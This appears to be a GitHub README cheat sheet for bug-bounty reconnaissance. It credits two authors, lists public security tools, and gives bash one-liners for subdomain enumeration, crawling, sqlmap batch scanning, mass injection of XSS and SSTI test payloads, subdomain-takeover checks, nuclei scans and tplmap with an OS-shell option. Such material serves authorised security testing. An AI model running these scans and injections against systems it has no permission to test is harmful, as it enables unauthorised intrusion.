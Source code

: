 ## Recon of Recon

## Credits

[OFJAAAH](https://github.com/OFJAAAH)<br>
[c4ng4c3ir0 ](https://github.com/c4ng4c3ir0)<br>

## Tools

[Subfinder](https://github.com/projectdiscovery/subfinder)<br>
[Sqlmap](https://github.com/sqlmapproject/sqlmap)<br>
[Katana](https://github.com/projectdiscovery/katana)<br>
[Gospider](https://github.com/jaeles-project/gospider)<br>
[Httpx-ToolKit](https://www.kali.org/tools/httpx-toolkit/)<br>
[Qsreplace](https://github.com/tomnomnom/qsreplace)<br>
[Airixss](https://github.com/ferreiraklet/airixss)<br>
[Uro](https://github.com/s0md3v/uro)<br>
[Nuclei](https://github.com/projectdiscovery/nuclei)<br>
[Freq](https://github.com/takshal/freq)<br>
[Hakrawler](https://github.com/hakluke/hakrawler)<br>
[Findomain](https://github.com/Edu4rdSHL/findomain)<br>
[Anew](https://github.com/tomnomnom/anew)<br>
[WayBackUrls](https://github.com/tomnomnom/waybackurls)<br>
[gf](https://github.com/tomnomnom/gf)<br>
[waybackrobots](https://github.com/vodafon/waybackrobots)<br>
[Dalfox](https://github.com/hahwul/dalfox)<br>
[XssTrike](https://github.com/s0md3v/XSStrike)<br>
[Gau](https://github.com/lc/gau)<br>
[Subzy](https://github.com/PentestPad/subzy)<br>
[Whatweb](https://www.kali.org/tools/whatweb/)<br>
[Nikto](https://github.com/sullo/nikto/tree/master)<br>
[Tplmap](https://github.com/epinna/tplmap)<br>
[Parabellum](https://github.com/wtechsec/Parabellum-XSS-Scanner/tree/main)<br>


###  Dorks. 

```bash
inurl:responsible disclosure program
inurl:vulnerability disclosure program
inurl:vulnerability program rewards
inurl:security report vulnerability
inurl:bugbounty reward program 
```


###  HTTP200. 

```bash
subfinder -d $(cat url) | httpx-toolkit -silent -sc -t 1000 | anew http200;
```

###  WaybackRobots. 

```bash
cat http200 | waybackrobots -d $(cat url) -raw | anew wayROBOTS;
```

###  Sqlmap. 

```bash
findomain -t $(cat url) -q | httpx-toolkit -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 1 | anew sqlmap;
```

###  Whatweb. 

```bash
whatweb $(cat url) | anew whatweb;
```


###  Subfinder. 

```bash
subfinder -d $(cat url) -silent -all | httpx-toolkit -silent | anew subfinder;
```

###  SSTI. 

```bash
echo $(cat url) | httpx-toolkit -silent | hakrawler -subs | grep "=" | qsreplace '{{7*7}}' | freq | anew ssti;
```


###  SubzyTakeOver. 

```bash
subzy run --targets subfinder | anew subzytakeover;
```


###  Katana crawling. 

```bash
cat subfinder | katana -d 5 -silent | grep -iE '\.js'| grep -iEv '(\.jsp|\.json)' | anew KatanaCrawling1;

cat subfinder | katana -d 5 -silent -em js,jsp,json | anew KatanaCrawling2;
```


###  Dalfox. 

```bash
sudo dalfox url https://testphp.vulnweb.com/listproducts.php?cat=
```

###  Parabellum. 

```bash
sudo python3 Parabellum-XSS-Scanner.py
```


###  Nikto. 

```bash
cd nikto/program
./nikto.pl -h http://www.example.com
```

###  Tplmap. 

```bash
python2.7 ./tplmap.py -u '<http://www.target.com/page?name=John*>' --os-shell
python2.7 ./tplmap.py -u "<http://192.168.56.101:3000/ti?user=*&comment=supercomment&link>"
python2.7 ./tplmap.py -u "<http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link>" --level 5 -e jade
```

###  Crt.sh. 

```bash
curl -s "https://crt.sh/?q=$(cat url)&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | httpx-toolkit -title -silent | anew crtsh;
```


###  XssTrike. 

```bash
sudo python3 xsstrike.py -u http://testphp.vulnweb.com/

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\=

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\= -f payforce.txt
```

###  Gau. 

```bash
gau $(cat url) | grep "\.js" | anew gau
```


###  Gospider. 

```bash
gospider -d 0 -s $(cat url) -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew gospider
```


###  Xss1. 

```bash
echo $(cat url) | httpx-toolkit -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not' | anew xss1;
```



###  Xss2. 

```bash
echo $(cat url) | httpx-toolkit -silent | katana -d 10 -silent | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss2;
```



###  Xss3. 

```bash
echo $(cat url) | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss3;
```


###  Xss4. 

```bash
gau $(cat url) | httpx-toolkit -silent | qsreplace '>XSS<' | freq | grep '>XSS<' | anew xss4;
```


###  OpenRedirect gf. 

```bash
echo $(cat url) | waybackurls | httpx-toolkit -silent -timeout 2 -threads 100 | gf redirect | anew openRedirect
```


###  Nuclei. 

```bash
echo $(cat url) | subfinder -silent | httpx-toolkit -p 80,443,81,300,591,593,832,981,1010,1311,1099,2082,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5108,5280,5281,5601,5800,6543,7000,7001,7396,7474,8000,8001,8008,8014,8042,8060,8069,8080,8081,8083,8088,8090,8091,8095,8118,8123,8172,8181,8222,8243,8280,8281,8333,8337,8443,8500,8834,8880,8888,8983,9000,9001,9043,9060,9080,9090,9091,9200,9443,9502,9800,9981,10000,10250,11371,12443,15672,16080,17778,18091,18092,20720,32000,55440,55672 | nuclei -severity low,medium,high,critical | anew nuclei
```

